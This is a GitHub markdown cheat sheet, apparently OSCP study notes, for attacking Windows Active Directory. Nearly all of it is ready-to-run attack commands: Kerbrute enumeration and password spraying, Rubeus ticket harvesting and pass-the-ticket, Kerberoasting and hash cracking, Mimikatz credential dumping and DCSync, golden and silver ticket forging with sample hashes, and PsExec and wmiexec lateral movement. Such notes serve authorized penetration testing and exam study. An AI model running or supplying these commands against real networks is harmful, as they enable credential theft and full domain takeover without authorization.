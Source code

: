   - [Kerbrute](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#kerbrute)
  - [Rubeus](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#rubeus)
  - [Roasting](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#roasting)
  - [Mimikatz](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#mimikatz)
  - [Lateral Movement](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#lateral-movement)

# Kerbrute

```./kerbrute_linux_amd64 userenum -d $DOMAIN -dc $DOMAIN_CONTROLLER usernames.txt```

```./kerbrute_linux_amd64 -domain $DOMAIN -users usernames.txt -passwords passwords.txt -outputfile Output_File```

# Rubeus
https://www.hackingarticles.in/a-detailed-guide-on-rubeus/

```Rubeus.exe harvest /interval:30```

```Rubeus.exe brute /password:$PASSWORD /noticket```

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

# Roasting
https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/

```Rubeus.exe kerberoast /nowrap```

```Rubeus.exe asreproast /nowrap```

- ```/format:[hashcat | john]> /outfile:Hashes.txt```

```john hash.txt```

```john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt```

- ```--format=krb5tgs```


# Mimikatz
https://adsecurity.org/?page_id=1821

#### Turn an NTLM into a TGT (OverPass-the-Hash / Pass-the-Key):

```
mimikatz#> 
privilege::debug
sekurlsa::logonpasswords
```

```sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe```

OR

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

```
Klist
Net use //dc1
Klist
```

PSEXEC to DC - 
```.\PsExec.exe \\dc01 cmd.exe```

* * * 

#### DCSync Attack:
```lsadump::dcsync /user:Administrator```
```lsadump::dcsync /user:domain\krbtgt```


#### Golden:
Jump to DC to dump krbtgt hash:

```psexec.exe \\dc01 cmd.exe```

```
Privilege::debug
lsadump::lsa /patch
```

Now we can create a Golden Ticket:
```Kerberos::purge```

```
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Prove we have DA permissions:
```
misc::cmd
psexec.exe \\dc01 cmd.exe
```

#### Silver:

Get domain SID  - ```Whoami /user```

```kerberos::list```

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

#### MAINTENANCE
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
```

#### Invoke Mimikatz

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'```

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'```

# Lateral Movement
```PsExec.exe -accepteula \\$HOSTNAME cmd```

```psexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```smbexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```wmiexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```rdesktop -d domain -u user -p password01 -r disk:local_folder=/path/to/shared_folder <hostname/IP> ```
